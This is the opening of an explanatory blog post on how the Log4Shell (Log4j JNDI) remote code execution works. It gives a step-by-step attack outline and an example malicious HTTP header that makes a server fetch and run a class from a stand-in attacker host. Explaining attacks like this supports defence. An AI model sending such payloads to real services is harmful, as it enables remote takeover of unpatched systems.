 # Anatomy of an exploit: a source-level walkthrough of the Log4j RCE

Here's a source-level tour of how the Log4Shell vulnerability works. We wrote this partly to help our users and customers understand the intricacies of the vulnerability so they can better protect their organizations in the future, and partly to satisfy our own curiosity about the mechanics of what was one of the most critical security vulnerabilities in recent memory.

Our journey will take us into the internals of how the most popular Java logging library implements string substitution, into the bowels of the JDK to inspect a core API that is powerful--perhaps too much so, and into the architecture of an attack server designed to exploit an entire class of vulnerabilities similar to Log4Shell.

Let's begin with a high-level diagram that outlines the key steps involved in the attack:

![attack diagram](https://s3.us-west-1.amazonaws.com/beyang.org-public/images/log4j.svg)

1. The attack begins with an attacker issuing a HTTP request to our vulnerable web service containing a string like `${jndi:ldap://malicious.com}`.
1. Our server receives the request and then logs the HTTP header metadata, which contains the malicious string.
1. Log4j will interpolate the value of `${jndi:ldap://malicious.com}` by using JNDI, a name lookup mechanism provided by the JDK, which in turn will attempt to resolve `ldap://malicious.com` by sending an LDAP request to the attacker's server.
1. The attacker's server will send a response containing metadata that identifies a Java class and a URL pointing back to the attacker's server as the place from which to fetch the class.
1. The vulnerable server fetches the class from the attacker's server.
1. The attacker's server responds with a malicious class, which the vulnerable server then receives and instantiates in order to finish computing the interpolated value.

Now for the deep dive into source code. We'll be walking through what happens at each step of the exploit across the code of the vulnerable service, Log4j, the JDK, and the attacker's server:

## Part 0: The vulnerable code

We start with a vulnerable application logging a HTTP request header value in a seemingly innocuous way:

https://sourcegraph.com/github.com/christophetd/log4shell-vulnerable-app/-/blob/src/main/java/fr/christophetd/log4shell/vulnerableapp/MainController.java?L17-20

If we were embedding this value unsanitized in a SQL query or a website, there would clearly be potential for a SQL injection or reflected XSS attack, but we're just logging it, so what's the worst that could happen? Well, let's take a look at what happens when an attacker sends a malicious payload as the header value.

## Part 1: Log4j

Say an attacker issues a HTTP request with the following request header to our vulnerable server:

```text
X-Api-Version: ${jndi:ldap://malicious.com:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
```
